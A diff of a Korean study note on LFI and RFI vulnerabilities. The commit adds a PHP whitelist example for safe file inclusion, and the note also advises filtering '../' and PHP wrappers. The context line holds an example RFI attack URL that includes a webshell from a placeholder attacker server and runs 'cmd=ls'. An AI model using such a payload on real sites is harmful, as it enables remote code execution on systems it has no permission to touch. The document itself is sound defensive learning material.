

Before and after one commit to Echo-H4C/Echo, a Markdown page: 취약점 정리/LFI,RFI.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/취약점 정리/LFI,RFI.md
+++ b/취약점 정리/LFI,RFI.md
@@ -73,6 +73,27 @@ http://target.com/index.php?file=http://[ATTACKER_SERVER]/webshell.php?cmd=ls
 
 파일을 include 하는 기능에 서버 내부에서 화이트리스트를 적용하여 특정 파일 이외에는 include 할 수 없도록 검증하여야 한다.
 
+```PHP
+<?php
+    $page = $_GET['page'] ?? 'home';
+
+    // 1. 허용된 파일 목록 정의 (화이트리스트)
+    $allowed_pages = [
+        'home'    => 'pages/home.php',
+        'about'   => 'pages/about.php',
+        'contact' => 'pages/contact.php'
+    ];
+
+    // 2. 입력값이 화이트리스트에 존재하는지 검증
+    if (array_key_exists($page, $allowed_pages)) {
+        include($allowed_pages[$page]);
+    } else {
+        // 안전한 기본 페이지로 이동하거나 에러 처리
+        include('pages/404.php');
+    }
+?>
+```
+
 ## 3.2. 입력값 검증
 
 서버 내부의 다른 파일에 접근하기 위해 필요한 ../ 특수문자와 PHP Wrapper(php://, file:// 등)를 필터링한다. 다만, 해당 문자열들만 필터링할 경우 서버의 소스코드 파일은 보호할 수 없어 완벽한 대응 방안은 아니다.
````
